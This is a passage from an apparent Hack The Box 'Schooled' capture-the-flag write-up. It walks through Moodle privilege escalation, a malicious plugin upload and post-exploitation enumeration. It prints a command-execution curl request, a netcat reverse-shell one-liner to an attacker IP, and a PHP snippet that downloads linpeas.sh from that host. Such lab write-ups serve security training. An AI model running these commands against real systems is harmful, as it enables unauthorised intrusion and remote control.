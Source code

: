 
* Now as a course administrator, accessing a user's profile, we can see the "Log in as" link, which permitted us to impersonate Lianne Carter.

  ![HTB Schooled - Impersonating Manager in Moodle](https://i.imgur.com/zRjimbq.png){: .align-center}
* Now as Lianne, we were supposed to be able to upload the plugin directly but, as this option isn't enabled in their tenant, we needed to first edit the Role permissions to allow this. Navigated to Site Administration pane > Users and then, under Permissions, selected Define roles.

  ![HTB Schooled - Adjusting Role Definitions](https://i.imgur.com/6XmydvH.png)
* Selected the **Manager** role and, after clicking in the "Edit" Button, intercepted the request, and appended the payload for full permissions, as shared also in the previously used script repo.

  ![HTB Schooled - Modifying Manager role](https://i.imgur.com/lm0NOX7.png){: .align-center}

  ![HTB Schooled - Appending payload to Edit Request](https://i.imgur.com/5L28UqN.png){: .align-center}
* Now, navigating to Site Administration > Plugins we can see the Install Plugins option, where the rce.zip also available in the portal was available, which was uploaded with success, and allowed us to obtain RCE by calling the URL below, later changed to get a reverse shell

```bash
$ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=id'
uid=80(www) gid=80(www) groups=80(www)

$ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'
```

## User Flag

Now with `www-data` account, started enumerating box. As usual decided to automate the task using `linpeas.sh` but found out that `wget` and `curl` were not available, so I wrote a simple `php` script that downloads a file from a webserver and then ran the script

```bash
echo "<?php" > wget.php
echo "\$url = 'http://10.10.10.10/linpeas.sh';" >> wget.php
echo "\$file = '/tmp/linpeas.sh';" >> wget.php
echo "\$current = file_get_contents(\$url);" >> wget.php
echo "file_put_contents(\$file, \$current);" >> wget.php
echo "?>" >> wget.php

/usr/local/bin/php wget.php
```

From the execution, the following information was obtained:

* Users with console and their permissions:

```plaintext
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
root:*:0:0:Charlie &:/root:/bin/csh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```
